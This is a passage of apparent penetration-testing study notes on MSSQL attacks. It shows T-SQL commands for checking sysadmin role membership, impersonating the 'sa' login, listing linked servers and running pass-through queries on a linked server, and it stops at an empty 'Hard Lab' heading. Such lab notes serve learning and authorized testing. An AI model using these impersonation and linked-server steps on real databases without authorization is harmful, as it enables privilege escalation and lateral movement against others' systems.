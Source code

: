 ```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

![[Pasted image 20240927181415.png]]

As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user

#### <mark class="hltr-grey">Impersonating the SA User</mark>

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

![[Pasted image 20240927181628.png]]

❗: It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

### <mark class="hltr-orange">Communicate with Other Databases with MSSQL</mark>

#### <mark class="hltr-grey">Identify linked Servers in MSSQL</mark>

```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO
```

![[Pasted image 20240927181809.png]]
❗: linked servers can be local

Next, we can attempt to identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement can be used to send pass-through commands to linked servers. We add our command between parenthesis and specify the linked server between square brackets (`[ ]`).

```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

![[Pasted image 20240927181956.png]]

#### <mark class="hltr-grey">Example from the Hard Lab</mark>
